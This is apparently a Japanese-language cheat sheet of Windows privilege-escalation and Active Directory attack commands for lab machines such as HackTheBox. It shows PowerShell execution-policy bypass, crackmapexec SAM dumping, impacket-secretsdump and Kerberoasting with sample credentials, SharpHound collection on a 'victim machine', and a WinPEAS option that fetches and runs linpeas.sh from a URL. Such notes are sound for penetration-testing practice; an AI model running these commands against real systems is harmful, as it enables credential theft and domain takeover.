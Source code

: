 ## 目次
1. [基本チェック](#基本チェック)
2. [自動化スクリプト](#自動化スクリプト)
    - [WinPeas](#winpeas)
    - [Jaws-enum.ps1](#jaws-enumps1)
    - [PowerUp.ps1](#powerupps1)
    - [PrivescCheck.ps1](#privesccheckps1)
3. [crackmapexec](#crackmapexec)
4. [Bloodhound](#bloodhound)
5. [Impacket](#impacket)
    - [secretdump](#secretdump)
    - [GetUserSPNs](#getuserspns)
6. [WinPEAS](#winpeas)
    - [AutoLogin](#autologin)
    - [パラメータ例](#パラメータ例)
7. [Sherrock.ps1](#sherrockps1)

---

## 基本チェック

```bash
whoami
whoami /priv
net user username
net user /group
net user /domain
host
hostname
systeminfo
```

> **注:** `hostfix`はWindows Updateの履歴を指します。

---

## 自動化スクリプト

## WinPeas
- [WinPeasのダウンロード](https://github.com/peass-ng/PEASS-ng/releases/tag/20230618-1fa055b6)
- コマンド: `winpeas.bat`

## Jaws-enum.ps1

## PowerUp.ps1

## PrivescCheck.ps1
- [PrivescCheckのダウンロード](https://github.com/itm4n/PrivescCheck)

**基本チェックのみ:**
```bash
. .\PrivescCheck.ps1; Invoke-PrivescCheck
```

**拡張チェック + すべてのレポート:**
```bash
. .\PrivescCheck.ps1; Invoke-PrivescCheck -Extended -Report PrivescCheck_$($env:COMPUTERNAME) -Format TXT,CSV,HTML,XML
```

**オールインワンコマンド:**
```bash
powershell -ep bypass -c ". .\PrivescCheck.ps1; Invoke-PrivescCheck -Extended -Report PrivescCheck_$($env:COMPUTERNAME) -Format TXT,CSV,HTML,XML"
```

---

## crackmapexec

```bash
crackmapexec smb 10.10.11.14 -u maya -p "m4y4ngs4ri" --sam
```
![image](https://github.com/user-attachments/assets/e658982a-7428-41b9-9356-ae05e7a18e6e)

---

## Bloodhound

### 初期侵入後の調査
```bash
sudo neo4j console
```
- メニューからBloodhoundを起動
  - ※コマンドだとなぜかエラーになる
- 被害者マシンで`SharpHound.exe`または`SharpHound.ps1`を実行  
  ![image](https://github.com/user-attachments/assets/753deb1f-f895-4105-9d16-659ea37b9c1e)

- ZIPファイルが作成されるのでダウンロード  
![image](https://github.com/user-attachments/assets/61565117-dd26-4eda-a52e-de79b67a3623)

- 解凍せずにBloodhoundにアップロード
- すでに権限を奪えているユーザーは「Mark User as High Value」にチェック  
![image](https://github.com/user-attachments/assets/d390ab8c-0a40-4f9a-907e-1736ea5b4abd)

### リモートの場合
```bash
bloodhound-python
```
- Dockerでも可能

---

### Impacket

#### secretdump
```bash
impacket-secretsdump htb/svc-alfresco:s3rvice@10.10.10.161
```
![image](https://github.com/user-attachments/assets/645b384d-4637-4ed7-a665-6427d228a7e7)

#### GetUserSPNs
```bash
impacket-GetUserSPNs -request -dc-ip active.htb active.htb/svc_tgs
```
- ※ユーザパスワードが必要
![image](https://github.com/user-attachments/assets/579c09d0-8c9c-4049-b489-a3a5d9fa7e80)

---

## WinPEAS

### AutoLogin
![image](https://github.com/user-attachments/assets/05666adb-b7b4-42ac-a6e2-514a56c45e28)

## パラメータ例
ヘルプを表示
```bash
winpeas.exe -h
```
すべてのチェックを実行（ただし、LOLBASとlinpeas.shの追加の遅いチェックは除く） (CTFs用)
```bash
winpeas.exe
```
systeminfoとuserinfoのチェックのみ実行
```bash
winpeas.exe systeminfo userinfo
```
出力をカラーにしない
```bash
winpeas.exe notcolor
```
ドメイン情報も列挙
```bash
winpeas.exe domain
```
各テスト間でユーザー入力を待機
```bash
winpeas.exe wait
```
追加のデバッグ情報を表示
```bash
winpeas.exe debug
```
出力を標準出力ではなくout.txtにログ
```bash
winpeas.exe log
```
追加のlinpeasチェックを実行（デフォルトのWSLディストリビューションでlinpeas.shを実行）カスタムURLでlinpeas.shを実行（指定がない場合、デフォルトURLは: https://raw.githubusercontent.com/peass-ng/PEASS-ng/master/linPEAS/linpeas.sh）
```bash
winpeas.exe -linpeas=http://127.0.0.1/linpeas.sh
```
追加のLOLBAS検索チェックも実行
```bash
winpeas.exe -lolbas
```

---

## Sherrock.ps1

- PowerShell周りの脆弱性列挙ツール
